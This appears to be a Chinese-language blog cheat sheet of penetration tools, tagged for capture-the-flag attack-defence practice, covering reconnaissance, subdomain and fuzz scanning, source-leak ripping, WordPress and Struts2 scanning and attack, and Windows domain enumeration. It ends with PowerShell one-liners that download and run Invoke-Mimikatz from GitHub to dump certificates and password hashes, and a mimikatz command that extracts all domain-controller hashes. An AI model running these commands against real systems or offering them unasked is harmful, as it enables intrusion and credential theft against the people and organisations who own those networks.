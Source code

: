 ```yaml
---
layout: post
title: "渗透入侵常用工具"
date: 2019-07-18 17:12:09 +0800
description: ""
category: ctf/awd
tags: []
---
```


## 信息搜集

#### 基本信息搜集

```
theharvester -d target.com -b bing,google -h -p
```

#### 后台查询

[Breacher](https://github.com/s0md3v/Breacher)：`python breacher.py -u example.com --type php`

[cangibrina](https://github.com/fnk0c/cangibrina)：`python cangibrina.py -u facebook.com --ext php`

#### 旁站查询

[Reverse IP Domain Check](https://www.yougetsignal.com/tools/web-sites-on-web-server/)

#### DNS查询

[who.is](https://who.is)

godaddy.com

[DNSdumpster](https://dnsdumpster.com/ )

```shell
whois xxx.edu.cn
dig +short xxx.edu.cn
dig -x 10.10.10.10
dnsrecon -d xxx.edu.cn
```

#### 子域名扫描器

[Find Subdomain](https://findsubdomains.com/)

###### [subDomainsBrute](https://github.com/lijiejie/subDomainsBrute)

```
D:\ctf\tools\gather\subDomainsBrute>python subDomainsBrute.py qq.com --full
```

#### FUZZ扫描器

###### [wfuzz](https://github.com/xmendez/wfuzz)

```powershell
C:\Users\tyler>wfuzz -w D:\ctf\tools\web\wfuzz\wordlist\general\common.txt -w D:\ctf\tools\web\wfuzz\wordlist\general\common.txt -w D:\ctf\tools\web\wfuzz\wordlist\general\extensions_common.txt --hc 404 http://testphp.vulnweb.com/FUZZ/FUZ2ZFUZ3Z #FUZZ url（FUZnZ，其中n代表了payload的序号）
wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ #FUZZ参数
```

#### 密码字典

[fuzzdb](https://github.com/fuzzdb-project/fuzzdb)

[SecLists](https://github.com/danielmiessler/SecLists)

社工密码字典生成工具[Cupp](https://github.com/Mebus/cupp)

爬行网站获取关键信息创建密码字典工具[cewl](http://digi.ninja/projects/cewl.php)

#### Web环境识别

```sh
$ whatweb -v xxx.edu.cn
```

#### 设备/服务组件搜索

国内：[钟馗之眼](https://www.zoomeye.org/)

国外：[撒旦](https://www.shodan.io)

#### 源码泄露

[dvcs-ripper](https://github.com/kost/dvcs-ripper)

```
#ignore SSL certification verification (with -s)
rip-git.pl -v -u http://www.example.com/.git/
rip-hg.pl -v -u http://www.example.com/.hg/
rip-bzr.pl -v -u http://www.example.com/.bzr/
rip-svn.pl -v -u http://www.example.com/.svn/
rip-cvs.pl -v -u http://www.example.com/CVS/
```

## 漏洞扫描

```shell
nikto -h xxx.edu.cn -output ./result.html -Format htm
/mnt/hgfs/ctf/tools/exploit/w3af/w3af_gui #https://github.com/andresriancho/w3af
```

#### WordPress漏洞扫描

```shell
wpscan --url target.com -e u --passwords /root/wordlist.txt -t 50
```

#### Structs2漏洞扫描

```
#https://github.com/Lucifer1993/struts-scan
python structs-scan.py http://target.com/struts2%2Dshowcase/actionChain.action #扫描
python structs-scan.py -u http://target.com -i struts2-048 #攻击
```

## 内网渗透

#### 域信息搜集

```powershell
>net user /domain #查询所有域用户
>net view /domain #查看有几个域
>net view /domain:XXX #查看域内的主机
>net group /domain #查看域里面的组
>net share #查看共享文件夹

>net group "domain computers" #domain：查看域内所有的主机名
>dsquery server #查询域控制器主机名
"CN=WIN-KMZ8MFWF5L8,CN=Servers,..."
>net group "domain controllers" /domain
WIN-KMZ8MFWF5L8$ #去掉结尾$符号
>ping WIN-KMZ8MFWF5L8 #查询域控制器IP
>net group "domain admins" /domain #查询域管理员用户名
```

#### 提取系统信息

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz DumpCerts #查询域管理员密码
powershell IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Get-PassHashes #查询域管理员密码hash

mimikatz log "privilege::debug" "lsadump::lsa /patch" #获取域控制器上所有用户的hash
```


